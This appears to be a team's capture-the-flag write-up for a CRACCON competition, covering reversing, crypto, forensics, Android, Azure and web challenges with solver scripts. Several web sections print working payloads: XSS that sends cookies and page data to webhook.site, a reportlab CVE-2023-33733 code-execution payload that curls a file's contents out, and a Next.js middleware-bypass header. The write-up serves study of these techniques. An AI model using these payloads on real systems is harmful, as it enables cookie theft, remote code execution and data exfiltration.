

# JSQUIZTIME

```
// The target hash we need to reverse to find the flag
const targetHash = '299c2a9926565c51932223992e935f292c599d5929fdfd57292d5590';

// --- 1. Reverse bombardinocrocodilo ---
// The operation is (val * 3) % 16. The modular inverse of 3 mod 16 is 11.
let hexString = '';
for (const char of targetHash) {
    const val = parseInt(char, 16);
    const reversedVal = (val * 11) % 16;
    hexString += reversedVal.toString(16);
}
// console.log("After reversing bombardinocrocodilo:", hexString);
// Output: 63346c336a5a545b3966693362395d636453375363d7d7516367553a

// --- 2. Reverse tralalelotralala ---
// The operation is char -> charCode -> hex. We do hex -> charCode -> char.
let shuffledString = '';
for (let i = 0; i < hexString.length; i += 2) {
    const hexPair = hexString.substring(i, i + 2);
    const charCode = parseInt(hexPair, 16);
    shuffledString += String.fromCharCode(charCode);
}
// console.log("After reversing tralalelotralala:", shuffledString);
// Output (shuffled flag): "c4l3jZT[9fi3b9]cdS7Sc\xef\xbf\xbd\xef\xbf\xbdQcgU:"

// --- 3. Reverse skjdhfk1 ---
// The operation is a shuffle: new_index = (old_index * 5) % 28.
// The modular inverse of 5 mod 28 is 17.
// We unshuffle: original_char_at[ (i*17)%28 ] = shuffled_char_at[ i ]
let flagArray = new Array(28);
for (let i = 0; i < 28; i++) {
    const originalIndex = (i * 17) % 28;
    flagArray[originalIndex] = shuffledString[i];
}
const finalFlag = flagArray.join('');

console.log("Final Flag:", finalFlag);
```

# Snapshot

by listing the files using volatility we can notice a suspicious looking file 

[httpflag.ctf.defhawk.com:8000flagsnapshot](http://flag.ctf.defhawk.com:8000/flagsnapshot)

in some language for chinese folder or something like that

also the / are not visible in volatility so yeah we had to replace them

then also in the end of the file we can see an x-api-key that is required to be set the header while accessing the site to get the flag so in the end this gets us the flag

```python
import requests

url = "http://flag.ctf.defhawk.com:8000/flag/snapshot"
headers = {"x-api-key": "sn4psh0t_v0l4t1litty"}

r = requests.get(url, headers=headers)
print(r.text)

```

# Extension Unchained

1. We are given a ZIP file and after extracting.
2. After analyzing the file I learned that it's an extension So I tried to add it to my Chrome.
3. Go to chrome://extensions/ in Chrome -> Load unpacked -> Add folder of file given in challenge.
4. While analyzing the file I learned about `const KONAMI = [38,38,40,40,37,39,37,39,66,65];` in `popup.js` which referred to :
- 38 → Up
- 38 → Up
- 40 → Down
- 40 → Down
- 37 → Left
- 39 → Right
- 37 → Left
- 39 → Right
- 66 → B
- 65 → A
It's a Konami Cheat code.
1. Now pressing these buttons in keyboard while the extension was opened yields `[Unlocked] k0n4mi_rev_st0rage_xor}` which seems like 2nd part of the flag.
2. Analyzing background.js gives us `const vault = "=tTEUuSnNu1HJ9SEbA0GFkHr4EUq2ITq";` which after Reversing -> Base64 -> XOR with 0x17 yields `Key = 0x17: craccon[EXTSHADOWOPS`

After a bit of fixing we get
craccon{EXT_SHADOW_OPS_k0n4mi_rev_st0rage_xor}

# Flutter Decode

1. Unzip the provided `flutter_decode.apk.zip` and extracted the APK.
2. Unzipped the APK and inspected native libraries (`lib/arm64-v8a/libapp.so`).
3. Ran strings on `libapp.so` and searched for base64-like tokens (I looked for strings containing +,/)
4. Found this base64blob:
`Y3JhY2NvbntDcjBzc19QbDQ3ZjBybVNfNHIzJ3RfcjNhbGxZX215X1Roal5nfQ==`

`craccon{Cr0ss_P147f0rmS_4r3_t_r3allY_my_TH1ng}`

```python

`unzip flutter_decode.apk.zip unzip flutter_decode_apk/flutter_decode.apk -d apk_unzipped strings apk_unzipped/lib/arm64-v8a/libapp.so | grep -E '([A-Za-z0-9+/]{20,}=+)$

echo 'Y3JhY2NvbntDcjBzc19QbDQ3ZjBybVNfNHIzJ3RfcjNhbGxZX215X1Roal5nfQ==' | base64 -d`

```

# Easy Rasp

after extracting the lib from the apk its just a game of reversing the lib function

this is the final script to solve base64 string was found in the initialization function JNI_onload

rest should be clear….

```python
import base64

# The encrypted data you found from data_161d0
encrypted_flag = bytes([
    0x0f, 0x17, 0x15, 0x0e, 0x06, 0x06, 0x00, 0x55, 0x7c, 0x2d, 0x36, 0x24, 
    0x32, 0x54, 0x1a, 0x31, 0x6b, 0x4f, 0x1f, 0x1c, 0x09
])

encoded_key_string = "bGV0bWVpbi4u" 

# Step 1: Decode the key string from Base64 to its raw byte form
try:
    real_key = base64.b64decode(encoded_key_string)
    print(f"[*] Successfully decoded the key: {real_key}")
except Exception as e:
    print(f"[!] Error decoding Base64 string: {e}")
    print("[!] Please find the correct string in Ghidra and paste it in the script.")
    exit()

# Step 2: XOR the encrypted flag with the decoded key to get the plaintext
decrypted_flag = ""
for i in range(len(encrypted_flag)):
    key_char = real_key[i % len(real_key)]
    encrypted_char = encrypted_flag[i]
    
    decrypted_char = encrypted_char ^ key_char
    decrypted_flag += chr(decrypted_char)

print("-" * 40)
print(f"[*] Decrypted Flag: {decrypted_flag}")
print("-" * 40)
```

# Shellcode

we can right away see if the input to the program is yes it creates another file and executes it

the file is created in /tmp as the name coderun so we can watch for it and copy it when it gets created

```python
import inotify.adapters
import shutil
import os
import time

# Configuration
WATCH_DIR = "/tmp"
TARGET_FILE = "coderun"
DEST_DIR = "/home/jod/captured_files"

# Ensure destination directory exists
os.makedirs(DEST_DIR, exist_ok=True)

# Set up inotify watcher
i = inotify.adapters.Inotify()
i.add_watch(WATCH_DIR)

print(f"Watching {WATCH_DIR} for {TARGET_FILE}...")

for event in i.event_gen(yield_nones=False):
    (_, type_names, path, filename) = event
    if "IN_CREATE" in type_names and filename == TARGET_FILE:
        full_path = os.path.join(path, filename)
        try:
            # Small delay to ensure file is fully written
            time.sleep(0.05)
            shutil.copy(full_path, DEST_DIR)
            print(f"[+] Captured {filename} at {time.strftime('%X')}")
        except FileNotFoundError:
            # File was deleted too quickly
            print(f"[!] {filename} disappeared before we could copy it")

```

after doing that we can see our initial string and some changes being made to the rax which are probably meant to be applied to our original string so we do that and get the flag

```python
# solve_flag.py
#
# Rebuilds the calloc(0xae) buffer from the disassembly snippet
# then extracts the hidden flag.

def build_buffer():
    size = 0xae
    buf = bytearray(size)

    # Write bytes exactly as in the disassembly
    writes = {
        0x01: 0x4e,
        0x08: 0x5f,
        0x0f: 0x4c,
        0x16: 0x4e,
        0x1d: 0x4e,
        0x1f: 0x42,
        0x26: 0x43,
        0x2d: 0x76,
        0x34: 0x78,
        0x3b: 0x63,
        0x3d: 0x79,
        0x44: 0x6c,
        0x4b: 0x63,
        0x52: 0x6a,
        0x59: 0x61,
        0x5b: 0x68,
        0x62: 0x52,
        0x69: 0x79,
        0x70: 0x65,
        0x77: 0x3e,
        0x79: 0x52,
        0x80: 0x79,
        0x87: 0x6c,
        0x8e: 0x63,
        0x95: 0x6a,
        0x97: 0x61,
        0x9e: 0x3e,
        0xa5: 0x69,
        0xac: 0x70,
    }

    for off, val in writes.items():
        buf[off] = val

    return buf

def extract_and_decode(buf):
    # Strip zero bytes (compacted payload)
    compacted = bytes(b for b in buf if b != 0)

    # XOR decode with 0x0d (found key)
    key = 0x0d
    decoded = bytes([c ^ key for c in compacted])
    return decoded

if __name__ == "__main__":
    buf = build_buffer()
    decoded = extract_and_decode(buf)
    print("Decoded flag:", decoded.decode("ascii"))
 
```

# **Pow3r**

we are given a powershell code that ran some substitution on a message and shifts

so we first undo that and get this

```python
enc = "[UD{{RQ{o6w_wk6_vkhoo|bh_zlwk|13x}"

# step 1: subtract 3
step1 = ''.join(chr(ord(c)-3) for c in enc)

# step 2: reverse the a->z, b->y, c->x, d->w mapping (case-insensitive)
def reverse_map(s):
    trans = str.maketrans({
        'z':'a','Z':'A',
        'y':'b','Y':'B',
        'x':'c','X':'C',
        'w':'d','W':'D'
    })
    return s.translate(trans)

plain = reverse_map(step1)
print("after -3: ", step1)
print("after reverse map:", plain)

```

we get CRAccONcl3t\th3\shellb_e\dithb.0ua

so after fixing it up a bit and asking for the format in ticket

we got

CRACCON{l3t_th3_shell_be_with_y0u}

but it still was not correct so i asked in ticket and got to know it was one letter off so i just tried leetify every character and finally we got the flag

CRACCON{l3t_th3_sh3ll_be_with_y0u}

# ECG

```python
from Crypto.Util.number import long_to_bytes
from math import gcd

s = [1471188920,8580498,528503476,577384753,534687615,
     631132756,1181691587,494356384,450508778,224733577,240456085]

e = 2**65537  

diffs = []
for i in range(len(s)-2):
    val = (s[i+2]-s[i+1])*(s[i+1]-s[i]) - (s[i+1]-s[i])*(s[i]-s[i-1]) if i>0 else 0
    if val != 0:
        diffs.append(abs(val))

n = diffs[0]
for d in diffs[1:]:
    n = gcd(n, d)

print("[+] Found n =", n)

def recover_ac(s, n):
    for a in range(1, n):
        c = (s[1] - s[0]*a) % n
        if (s[2] - (s[1]*a + c)) % n == 0:
            return a, c
    return None, None

a, c = recover_ac(s, n)
print("[+] Found a =", a)
print("[+] Found c =", c)

def recover_m(a, n):
    for x in range(32, 127): 
        for y in range(32, 127):
            for z in range(32, 127):
                for w in range(32, 127):
                    m = (x<<24)|(y<<16)|(z<<8)|w
                    if pow(m, e, n) == a:
                        return m
    return None

m = recover_m(a, n)
print("[+] Found m =", m, long_to_bytes(m))

blocks = [n, s[0], c, m]
msg = b''.join(long_to_bytes(b) for b in blocks)
flag = b"craccon{" + msg + b"}"
print("[+] Flag =", flag.decode())

```

# **flgmgrkm**

to start off we are given a dmp file which is a memory dump of a running process and a pdb file which is just debugging symbols for the file that can debug the names and symbols for the particular dmp

so loading the dmp in ida we can see what is supposed to be the main part/main module of the program we are suppose to analyze as it starts with the challenge name



since symbols for this are not present we can load the pdb symbols for the same that we were given now we can see what kinds of functions this module had


we see a decrypt flag function and we see flag data


the decryption is pretty straight forward from here

```python
data = [
    0x0A,0x18,0x0A,0x0F,0x0E,0x01,0x01,0x0B,0x17,0x1E,
    0x47,0x42,0x2A,0x12,0x05,0x49,0x0F,0x49,0x09,0x23,
    0x16,0x4D,0x0D,0xEE,0xB2,0xEE,0xDC,0xE9,0xB5,0xE2,
    0xB4,0x0F
]

length = len(data)
for i in range(length-1):
    data[i] ^= (i + 105)

flag = ''.join(chr(b) for b in data)
print(flag)

```

we get craccon{fl46_dr1v3r_k3rn3l_m0d3

adding a } at the end gives us our flag

# Role Reversal

**Reconnaissance**

Based on the description, it was evident that reset password functionality was vulnerable in some way. And we needed 2 things - 1 is admin role, and 2, an endpoint where we can see created tickets.

**Findings.**

I found these endpoints from source code. related to password resetting - 
1. /api/auth/forgot-password
It takes an email id, and mails a password reset link.

2. /api/auth/dummy?token=<token>
It takes the reset token received on mail and generates a new authToken.

3. /api/auth/reset-password
it takes email and password as payload and sets password for that email. No reset-token needed. 

And using fuzzing, i found this api endpoint - 

4. /api/admin/tickets
This needed a valid admin token as a header.

**Flag**

At first, I tried extracting many user ids from reviews and sellers endpoint, getting the emails of all the ids from /api/update-profile, and resetting their password to see if any of them was admin. But everyone had role "User".

Then I tried adding role parameter to /api/auth/reset-password and /login, but it didn't work out. Finally I tried adding role:"admin" param to /api/auth/forgot-password with a valid mail, and the token in that mail had role:admin set in its claims dict.

Finally, I used that reset token with /api/auth/dummy?token= and got a authToken, which also had role:"admin" set, and giving it to /api/admin/tickets gave us the flag.

# through the looking glass

After creating a ticket, server responded back with a url /api/ticket/preview-image?url=<url of uploaded image>. So it was clear this was SSRF and we had to somehow trick the bot into visit our controlled page. 

I tried common payloads like using @ or back slash/forward slash parser differentials, but they didn't work. i tried to check if it only checks for base domain i.e. amazonaws.com but that too failed.

Finally, i tried /api/ticket/preview-image?url=http://defhawk-node-assets and instead of saying untrusted domain, it gave us failed to preview image, which meant server accepted it as trusted. So we just needed a sub domain like defhawk-node-assets.<anydomain>. I simply used requestcatcher.com, in which we can listen on any subdomain for requests. So the final url was /api/ticket/preview-image?url=https://defhawk-node-assets.requestcatcher.com and the request received had the flag in it.

# Power play

searched arround a bit for CPA on AES-128 , found some repos for it
in background asked gpt for the same and it provided 100% accurate solution (lol)

```python
# cpa_recover.py
import numpy as np
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import matplotlib.pyplot as plt

# AES S-box
SBOX = np.array([
0x63,0x7c,0x77,0x7b,0xf2,0x6b,0x6f,0xc5,0x30,0x01,0x67,0x2b,0xfe,0xd7,0xab,0x76,
0xca,0x82,0xc9,0x7d,0xfa,0x59,0x47,0xf0,0xad,0xd4,0xa2,0xaf,0x9c,0xa4,0x72,0xc0,
0xb7,0xfd,0x93,0x26,0x36,0x3f,0xf7,0xcc,0x34,0xa5,0xe5,0xf1,0x71,0xd8,0x31,0x15,
0x04,0xc7,0x23,0xc3,0x18,0x96,0x05,0x9a,0x07,0x12,0x80,0xe2,0xeb,0x27,0xb2,0x75,
0x09,0x83,0x2c,0x1a,0x1b,0x6e,0x5a,0xa0,0x52,0x3b,0xd6,0xb3,0x29,0xe3,0x2f,0x84,
0x53,0xd1,0x00,0xed,0x20,0xfc,0xb1,0x5b,0x6a,0xcb,0xbe,0x39,0x4a,0x4c,0x58,0xcf,
0xd0,0xef,0xaa,0xfb,0x43,0x4d,0x33,0x85,0x45,0xf9,0x02,0x7f,0x50,0x3c,0x9f,0xa8,
0x51,0xa3,0x40,0x8f,0x92,0x9d,0x38,0xf5,0xbc,0xb6,0xda,0x21,0x10,0xff,0xf3,0xd2,
0xcd,0x0c,0x13,0xec,0x5f,0x97,0x44,0x17,0xc4,0xa7,0x7e,0x3d,0x64,0x5d,0x19,0x73,
0x60,0x81,0x4f,0xdc,0x22,0x2a,0x90,0x88,0x46,0xee,0xb8,0x14,0xde,0x5e,0x0b,0xdb,
0xe0,0x32,0x3a,0x0a,0x49,0x06,0x24,0x5c,0xc2,0xd3,0xac,0x62,0x91,0x95,0xe4,0x79,
0xe7,0xc8,0x37,0x6d,0x8d,0xd5,0x4e,0xa9,0x6c,0x56,0xf4,0xea,0x65,0x7a,0xae,0x08,
0xba,0x78,0x25,0x2e,0x1c,0xa6,0xb4,0xc6,0xe8,0xdd,0x74,0x1f,0x4b,0xbd,0x8b,0x8a,
0x70,0x3e,0xb5,0x66,0x48,0x03,0xf6,0x0e,0x61,0x35,0x57,0xb9,0x86,0xc1,0x1d,0x9e,
0xe1,0xf8,0x98,0x11,0x69,0xd9,0x8e,0x94,0x9b,0x1e,0x87,0xe9,0xce,0x55,0x28,0xdf,
0x8c,0xa1,0x89,0x0d,0xbf,0xe6,0x42,0x68,0x41,0x99,0x2d,0x0f,0xb0,0x54,0xbb,0x16
], dtype=np.uint8)

def hamming_weight_vec(arr):
    # arr shape: (M, N) where M = number of key guesses (or values), N = n_traces
    # returns array of shape (M, )? We want per-value counts per trace so return shape (M,N) hamming weights per element
    return np.unpackbits(arr.astype(np.uint8)[:, :, None], axis=2).sum(axis=2)

# Load data (place these files in same directory)
plaintexts = np.load('plaintexts.npy')   # expected (n_traces, 16), dtype uint8
traces = np.load('power_traces.npy')    # expected (n_traces, n_samples)

n_traces = plaintexts.shape[0]
n_samples = traces.shape[1]
print(f"Loaded {n_traces} traces x {n_samples} samples.")

# preprocess
if plaintexts.dtype != np.uint8:
    plaintexts = plaintexts.astype(np.uint8)
traces_mean = traces.mean(axis=0)
traces_centered = traces - traces_mean
traces_std = traces_centered.std(axis=0, ddof=0)
traces_std[traces_std == 0] = 1e-12

recovered = np.zeros(16, dtype=np.uint8)
best_corrs = np.zeros(16)
best_sample_idx = np.zeros(16, dtype=int)

for byte_idx in range(16):
    pt = plaintexts[:, byte_idx].astype(np.uint8)   # (n_traces,)
    # create xor matrix (256, n_traces)
    xor_vals = (np.arange(256, dtype=np.uint8)[:, None] ^ pt[None, :])
    svals = SBOX[xor_vals]               # (256, n_traces)
    # compute hamming weight per element:
    # vectorized: use unpackbits
    # get hamming weight per entry -> shape (256, n_traces)
    hw = np.unpackbits(svals[:, :, None], axis=2).sum(axis=2).astype(np.float64)
    hw_centered = hw - hw.mean(axis=1)[:, None]
    hw_std = hw_centered.std(axis=1, ddof=0)
    hw_std[hw_std == 0] = 1e-12
    # covariance between each guess and all samples: (256, n_samples)
    cov = (hw_centered @ traces_centered) / float(n_traces)
    corr = cov / (hw_std[:, None] * traces_std[None, :])
    abs_corr = np.abs(corr)
    # locate global maximum
    flat_idx = np.argmax(abs_corr)
    k_guess, sample_idx = np.unravel_index(flat_idx, abs_corr.shape)
    recovered[byte_idx] = k_guess
    best_corrs[byte_idx] = abs_corr[k_guess, sample_idx]
    best_sample_idx[byte_idx] = sample_idx
    print(f"byte {byte_idx:2d}: guess 0x{k_guess:02x}  corr={best_corrs[byte_idx]:.4f} sample={sample_idx}")

print("Recovered key (hex):", recovered.tobytes().hex())

# try decrypting your ciphertext (from prompt)
ciphertext_hex = "f0f931dd9fe3b1568a8fac88f61d55c76d356778ba7a6e0b08d0fbee83a9314b68f8a4c92c534d71daf22b88de551a11"
ct = bytes.fromhex(ciphertext_hex)
try:
    dec = AES.new(recovered.tobytes(), AES.MODE_ECB)
    pt = unpad(dec.decrypt(ct), AES.block_size)
    print("Decrypted plaintext:", pt)
    try:
        print("As text:", pt.decode())
    except:
        pass
except Exception as e:
    print("Decrypt failed:", e)

# Plot max abs correlation vs sample for first 4 bytes
import matplotlib.pyplot as plt
plt.figure(figsize=(10,8))
for i in range(4):
    pt = plaintexts[:, i]
    xor_vals = (np.arange(256, dtype=np.uint8)[:, None] ^ pt[None, :])
    svals = SBOX[xor_vals]
    hw = np.unpackbits(svals[:, :, None], axis=2).sum(axis=2).astype(np.float64)
    hw_centered = hw - hw.mean(axis=1)[:, None]
    hw_std = hw_centered.std(axis=1, ddof=0); hw_std[hw_std==0]=1e-12
    cov = (hw_centered @ traces_centered) / float(n_traces)
    corr = cov / (hw_std[:, None] * traces_std[None, :])
    max_abs_corr = np.max(np.abs(corr), axis=0)
    plt.subplot(4,1,i+1)
    plt.plot(max_abs_corr)
    plt.title(f'Byte {i} — peak sample {best_sample_idx[i]} (corr={best_corrs[i]:.4f})')
plt.tight_layout()
plt.show()

```

# flyairways

after a bit of enumeration it was clear that the /flight_info
endpoint had a xss vulnerebility , so
at first i just tried getting the admin cookie through a webhook
`<script>window.location.href="<https://webhook.site/><redacted>/"+document.cookie</script>`
but that didn't work
after that i noticed the update role endpoint
i tried calling that endpoint from admin bot's client to elevate my account's role
and it work but then another endpoint was visible : /get_flag
which i couldn't fetch even with admin , so i turned to request forgery again
and redirect output of /get_flag to my webhook with xss :
final payload :
[http://craccon.ctf.defhawk.com:9030/flight_info?q=](http://craccon.ctf.defhawk.com:9030/flight_info?q=)<script>fetch("[http://craccon.ctf.defhawk.com:9030/get-flag](http://craccon.ctf.defhawk.com:9030/get-flag)", {method: "POST"}) .then(res => res.text()) .then((v)=>window.location.href=`https://webhook.site/94099321-394e-4d27-986c-4b233b2b1472/${encodeURIComponent(v.match(/CRACCON\\{.*?\\}/i)[0])}`)</script>

# bharatpatholabs - access/extract

 

/robots.txt gave

robots.txt

User-agent: *
Allow: /

#requirements
#Flask==2.3.2
#Flask-Bcrypt==1.0.1
#reportlab==3.6.11
#Pillow==9.5.0

which led to CVE-2023-33733 for reportlab
and ability to view pdf and add report confirmed the use of this vuln

after a bit of testing found that `Test Results & Findings` field could be used for the payload
found this github poc : [https://github.com/c53elyas/CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)
modified and iterrated on the payload till it worked :

<para><font color='[[[getattr(pow, Word("**globals**"))["os"].system("curl [https://webhook.site/94099321-394e-4d27-986c-4b233b2b1472/?q=$"+"](https://webhook.site/94099321-394e-4d27-986c-4b233b2b1472/?q=$%22+%22)(cat /var/flag/flag.txt|base64 -w0)") for Word in [ orgTypeFun( "Word", (str,), { "mutated": 1, "startswith": lambda self, x: 1 == 0, "**eq**": lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, "mutate": lambda self: { setattr(self, "mutated", self.mutated - 1) }, "**hash**": lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and "red"'>
exploit
</font></para>

turns out the /var/flag/flag.txt was for the next challenge in this series , after trying these 'wrong flags' many times i finally read the [app.py](http://app.py/):
patients = [
{"id": 1, "name": "Aarav Sharma", "age": 42, "gender": "Male", "address": "Mumbai, Maharashtra"},
{"id": 2, "name": "Priya Patel", "age": 35, "gender": "Female", "address": "Ahmedabad, Gujarat"},
{"id": 3, "name": "Rahul Singh", "age": 28, "gender": "Male", "address": "Delhi"},
{"id": 4, "name": "Ananya Gupta", "age": 50, "gender": "Female", "address": "Kolkata, West Bengal"},
{"id": 5, "name": "Vikram Joshi", "age": 65, "gender": "Male", "address": "Pune, Maharashtra"},
{"id": 6, "name": "Neha Reddy", "age": 31, "gender": "Female", "address": "Hyderabad, Telangana"},
{"id": 7, "name": "Arjun Kumar", "age": 22, "gender": "Male", "address": "Bangalore, Karnataka"},
{"id": 8, "name": "Divya Iyer", "age": 45, "gender": "Female", "address": "Chennai, Tamil Nadu"},
{"id": 9, "name": "Rohit Malhotra", "age": 38, "gender": "Male", "address": "Chandigarh"},
{"id": 10, "name": "Meera Chatterjee", "age": 29, "gender": "Female", "address": "Kolkata, West Bengal"},
{"id": 11, "name": "Sanjay Verma", "age": 55, "gender": "Male", "address": "Lucknow, Uttar Pradesh"},
{"id": 12, "name": "Pooja Mehta", "age": 33, "gender": "Female", "address": "Surat, Gujarat"},
{"id": 13, "name": "Karthik Nair", "age": 40, "gender": "Male", "address": "Thiruvananthapuram, Kerala"},
{"id": 14, "name": "Shreya Desai", "age": 27, "gender": "Female", "address": "Mumbai, Maharashtra"},
{"id": 15, "name": "Amit Trivedi", "age": 48, "gender": "Male", "address": "Vadodara, Gujarat"},
{"id": 16, "name": "Deepika Srinivasan", "age": 36, "gender": "Female", "address": "Coimbatore, Tamil Nadu"},
{"id": 17, "name": "Rajesh Khanna", "age": 60, "gender": "Male", "address": "Patna, Bihar"},
{"id": 18, "name": "Anjali Kapoor", "age": 25, "gender": "Female", "address": "Jaipur, Rajasthan"},
{"id": 19, "name": "Vivek Oberoi", "age": 32, "gender": "Male", "address": "Bhopal, Madhya Pradesh"},
{"id": 20, "name": "Isha Banerjee", "age": 41, "gender": "Female", "address": "Bhubaneswar, Odisha"},
{"id": 21, "name": "Easy IDOR?", "age": 41, "gender": "Female", "address": "CRACCON{E4sY_P34sy_ID0r}"}
]

# social connect

after enumerating the site for possible attack vector
found the vector at post report, it reject script tags
after trying more payloads from xss cheatsheets, this worked :

```bash
<SCRIPT>window.location.href="[https://webhook.site/](https://webhook.site/10d0eba8-299a-4bed-92d7-3e6bf5883cd3)[REDACTED]/?q="+document.cookie</SCRIPT>
```


# orderly-chaos

not really sure what the intended solve was but,

earlier i had made many requests trying different stuff out like tryin various coupons

```bash
       {
          name: "FIRST20",
          limit: "Unlimited",
          type: "Percentage",
          value: 20
        },
 name: "OFFER50", limit: "One Time", type: "Fixed", value: 50 }, void 0, false, {
        fileName: "/app/src/Pages/Admin/AdminCoupons.tsx",
        lineNumber: 42,
        columnNumber: 9
      },
 this),
    /* @__PURE__ */ jsxDEV(BasicModal, { open: openModal, onClose: handleCloseModal, children: /* @__PURE__ */ jsxDEV("div", { className: "text-sm p-2", children: [
      /* @__PURE__ */ jsxDEV("div", { className: "flex justify-between items-center mb-8", children: [
        /* @__PURE__ */ jsxDEV("div", { className: "text-[#9077D2] font-medium text-xl", children: [
          " ",
          "Add New Coupon"
        ] }, void 0, true, {
          fileName: "/app/src/Pages/Admin/AdminCoupons.tsx",
          lineNumber: 48,
          columnNumber: 13
        }, this),
        /* @__PURE__ */ jsxDEV(
          "div",
          {
            onClick: handleCloseModal,
            className: "cursor-pointer text-[#9077D2]",
            children: "X"
          },
          void 0,
          false,
          {
            fileName: "/app/src/Pages/Admin/AdminCoupons.tsx",
            lineNumber: 52,
            columnNumber: 13
```

like these ones and ordering stuff and multiple request methods and whatnot so not really sure which one exactly caused the flag to spawn there

but it was finally found in 

```bash
"paymentStatus": "The flag is {"flag":"CRACCON{058e4b084a0f6b991743162edfd3f7a4}","valid_window":14643054,"expires_at":1757166600,"issued_at":1757166489,"ttl_seconds":111}",
"canceled": false,
"createdAt": "2025-01-18T05:27:33.303Z",
"updatedAt": "2025-01-18T05:27:33.303Z",
"__v": 0
```

[http://ecom.ctf.defhawk.com/shop/settings/orders](http://ecom.ctf.defhawk.com/shop/settings/orders) in api requests of /api/order/get

# royalvoyage

simple google lens image search led to windsor castle
after confirming it a little bit more thoroughly
i submited CRACCON{windsor_castle}

# to-the-vault

original challenge url : [https://azurectflab1.blob.core.windows.net/$web/](https://azurectflab1.blob.core.windows.net/$web/)
lead to me installed azcli and checking out the files
$web
├── error.html
├── index.html
└── static
├── azure.jpg
└── Lin_Pwsh.jpg
this is the structure i found
after looking through each file and trying stego techniques on the images (you never know what a author might throw at you ;-;)
after a while i search more about the azcli and azue blob storage servers and got to know about versions/snapshots
then got gpt to give me cmd for checking out version history of the container
`az storage blob list  --account-name azurectflab1  --container-name "$web"  --include v   --output table`
output:
Name                 Blob Type    Blob Tier    Length    Content Type    Last Modified              Snapshot

---

error.html           BlockBlob    Hot          1256      text/html       2025-08-21T09:46:52+00:00
file.txt             BlockBlob    Hot          78        text/plain      2025-08-21T15:34:31+00:00
index.html           BlockBlob    Hot          944       text/html       2025-08-21T12:23:22+00:00
static/Lin_Pwsh.jpg  BlockBlob    Hot          16837     image/jpeg      2025-08-21T09:51:21+00:00
static/azure.jpg     BlockBlob    Hot          71982     image/jpeg      2025-08-21T09:52:50+00:00
static/creds.txt     BlockBlob    Hot          198       text/plain      2025-09-04T18:26:25+00:00

then tried gettings file.txt and creds.txt with help of gpt

`az storage blob download --account-name azurectflab1 --container-name '$web' --name file.txt   --file .\\file.txt.v1   --version-id 2025-08-21T15:34:31.8427896Z`

then logged in using those creds

`az keyvault list -o table`
Location      Name     ResourceGroup

---

centralindia  ctflab1  Lab_1
`az keyvault secret list --vault-name ctflab1 -o table`
Cracconsecretvault  [https://ctflab1.vault.azure.net/secrets/Cracconsecretvault](https://ctflab1.vault.azure.net/secrets/Cracconsecretvault)                 True
`az keyvault secret show --vault-name ctflab1  --name Cracconsecretvault`
{
"attributes": {
"created": "2025-09-04T18:38:40+00:00",
"enabled": true,
"expires": null,
"notBefore": null,
"recoverableDays": 90,
"recoveryLevel": "Recoverable+Purgeable",
"updated": "2025-09-04T18:38:40+00:00"
},
"contentType": null,
"id": "[https://ctflab1.vault.azure.net/secrets/Cracconsecretvault/7dc210be77c04c2ca093966ea2968f59](https://ctflab1.vault.azure.net/secrets/Cracconsecretvault/7dc210be77c04c2ca093966ea2968f59)",
"kid": null,
"managed": null,
"name": "Cracconsecretvault",
"tags": {},
"value": "CRACCON{who_left_the_vault_open_az_kv_2025}"
}

# pay2win

upon googling for unpixelation github repos
i found [https://github.com/spipm/Depixelization_poc/](https://github.com/spipm/Depixelization_poc/)
which had examples with the greenshot software ,so intended solution was confirmed
afterwards tried multiple times while changing the cropped part of the pixelated area
but no result,
turns out the repo had a bug where it failed to load grayscale pngs , which resulted in me using jpgs instead which made it not work at all, at last i modified
`Image.open(self.path)` to `Image.open(self.path).convert("RGB")`
and ran it with my cropped pixelated png , and it worked
it was semi readable so i ran bruteforce for couple of visually possible characters

aX01sa this was the final unblurred password


this was our unblur attempt

the flag can be found at [http://vpngw.craccon.defhawk.com:9000/SSL-VPN/dashboard.esp](http://vpngw.craccon.defhawk.com:9000/SSL-VPN/dashboard.esp) after logging in to the site using the creds cracvpn : aX01sa 

# fake-estate

very simple ,  "The Middle Man Stopped You." + nextjs == CVE-2025-29927
payload i used :
x-middleware-subrequest: src/middleware

```bash
└─$ curl -v "http://craccon.ctf.defhawk.com:3000/houseDoor"   -H "X-Middleware-Subrequest: src/middleware" | grep "CRACCON{"
```

the flag will be visible in the request

# knock-knock

 

joined the [https://discord.gg/FpMpPbu6](https://discord.gg/FpMpPbu6) ,
flag was at [https://discord.com/channels/984457440689021038/1413413311441276958/1413712860319715438](https://discord.com/channels/984457440689021038/1413413311441276958/1413712860319715438)
spent so much time trying to use q8r5m2z7t1x9 as a link id ;-;
flag CRACCON{knock_knock_q8r5m2z7t1x9}

# **VoltSpectre**

we are given an apk file which is an application that runs a web server on port 8080 that has different apis so to start off the challenge we will run the apk on android sim and port foward it to 8080

this is the flow of the program and endpoints

- **Stage 1 (/init)** A simple GET request to /init returns a session_id, challenge_type, and difficulty. A subsequent GET to /status retrieves the static timestamp for the session.
- **Stage 2 (/authenticate)** The server expects a POST request with a dynamically generated auth_token. The token is created by hashing (session_id + challenge_type + difficulty + timestamp) and then applying a custom bitwise rotation to the first 16 bytes of the SHA-256 hash.
- **Stage 3 (/challenge)** This stage introduces an intentional inconsistency. The server expects a response generated by hashing (session_id + difficulty + challenge_type + timestamp + "CHALLENGE"). Note the swapped order of difficulty and challenge_type. The result is derived from XORing blocks of the resulting hash.
- **Stage 4 (/verify)** This required calculating a verification_code. The main trick was correctly constructing the partial_flag string that the server generated internally in the previous step. The server uses the format CRACCON{obscurax_network_master_{challenge_type}_{difficulty} but then applies a strange substring operation, removing the last character of the difficulty string before appending an underscore (e.g., ...exper_ instead of ...expert_). This corrected string is then hashed with other session data to generate the verification code.
